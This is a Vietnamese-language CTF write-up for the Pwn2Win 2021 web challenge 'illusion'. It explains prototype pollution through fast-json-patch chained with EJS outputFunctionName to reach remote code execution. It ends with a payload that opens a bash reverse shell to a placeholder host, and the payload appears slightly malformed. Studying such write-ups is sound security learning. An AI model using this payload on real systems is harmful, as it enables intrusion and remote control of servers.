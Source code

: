 ```yaml
---
layout: post
title: "[WRITEUP PWN2WINCTF 2021]: WEB"
categories: CTF
---
```


<h3>illusion</h3>
- Source: [illusion](https://github.com/DauHoangTai/CTF/tree/master/2021/Pwn2win/illusion)

### Overview:
- Trang web chỉ hiện thị các service nào đang online và offline nhưng ở đây tất cả đều online. Cấu trúc của folder chứa challenge mà author cung cấp thì chúng ta thấy có file `flag.txt` và `readflag` nhưng nó không được gọi ra ở bất kì đâu => có lẽ phải RCE để thực thi file `readflag`.

### Analysis Source:
- Nhìn vào source thì thấy có 1 endpoint `change_status` là có thể khai thác. 
![image](https://user-images.githubusercontent.com/54855855/121309532-7c888d80-c92c-11eb-8687-73a2225375f0.png)
Ở đoạn code này chương trình nhận input của người dùng thông qua method post sau đó kiểm tra tham số người dùng truyền vào nếu như `service=='status'` thì return về 400, nếu không thì sẽ push vào array path (option ở đây là repace nên sẽ thay thế value của tham số đó luôn chứ không phải thêm vào). Cuối cùng nó sẽ thay đổi các giá trị trong mảng của services (được khai báo ban đầu) bằng các giá trị ở trong mảng pacth và return về sercives đó.
- Ở endpoint `/` thì thấy được nó lấy mảng servirces để render qua file `index.js` mà không hề được lọc đầu vào cùa người dùng.
- File `index.ejs` thì sẽ in ra các value của services.
=> chúng ta có thể dựa vào cách nó in ra thẳng input của người dùng mà không xử lí đầu vào => prototype pollution attack.

### Solution:
- Ở bài này chúng ta không thể gọi prototype như bình thường vì nó bị chặn. Sau khi tìm kiếm thì phát hiện ở thư viện ` fast-json-patch` gần đây có thể tấn công prototype pollution
link: https://github.com/418sec/huntr/pull/768
- Sử dụng nó kèm theo hàm `outputFunctionName` ở trong node js có thể rce
Vậy bây giờ ta chỉ cần sử dụng nó và RCE để lấy flag.

### Payload:
```js
constructor/prototype/outputFunctionName='x; return return global.process.mainModule.constructor._load("child_process").execSync(bash -c "bash -i >& /dev/tcp/host/port 0>&1");'
```